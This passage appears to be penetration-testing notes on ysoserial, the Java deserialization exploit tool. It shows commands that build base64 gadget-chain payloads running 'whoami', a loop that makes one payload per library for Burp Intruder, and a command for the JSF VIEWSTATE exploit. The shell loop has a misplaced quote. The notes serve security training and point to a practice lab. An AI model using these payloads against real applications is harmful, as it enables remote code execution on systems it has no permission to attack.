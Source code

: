 The payload names displayed by the help message are Library names that the gadgets will be taken from.

The ```ysoserial``` payload is in binary format. Often it will be useful to convert it to ```base64``` in order to be able to send it to an application, as in the web app world binary data is base64-encoded.

```bash
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 "whoami" | base64 -w 0
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhjZXB0aW9u1Ofaq2MtRkACAAFMAAN2YWx0ABJMamF2YS9sYW5nL09iamVjdDt4cgATamF2YS5sYW5nLkV4Y2VwdGlvbtD9Hz4aOxzEAgAAeHIAE2phdmEubGFuZy5UaHJvd2FibGXV.......
```

The previous command will generate a serialized payload that upon being insecurely deserialized by an application that includes *CommonsCollections1* it its classpath, will result in executing the command ```whoami```.

When approaching an application we do not know what libraries are used by the backend. In such a case a brute-force approach might be rewarding, generating all possible ```ysoserial``` payloads and then try each of them against the target software.

Assuming that ```payloads.txt```contains all ```ysoserial``` payload names:

```bash
while read payload;
do echo -en "$payload\n\n";
java -jar ysoserial-master-SNAPSHOT.jar $payload "whoami" | base64 | tr -d '\n' > payloads/$payload.ser;
echo -en "----------------------\n\n; done < payloads.txt"
```
```bash
sudo mkdir payloads && ./yso.sh
```


The script will create a base64-encoded serialized payload for each vulnerable library.

The result file can be further used in Burp Intruder attacks.

Each of the ```.java```  files inside the ```ysoserial``` jar can be run as a separate java class, resulting in executing different code by the tool. For example, in order to use ```ysoserial/exploit/JSF.java```, we need to issue the command:

```bash
java -cp ysoserial.jar ysoserial.exploit.JSF
```

The JSF payload can be used to attack serialization in Java Faces' ```VIEWSTATE``` parameter.

--> To practice with the vulnerability it is possible to use  [DeserLab](https://github.com/NickstaDB/DeserLab), which is a vulnerable environment containing a serialization exploit.


Note that when telling ```ysoserial``` to create RCE payloads, it is necessary to be aware of its limitations:

- Output redirections and pipes are not supported
- **Parameters** to the command cannot contain spaces
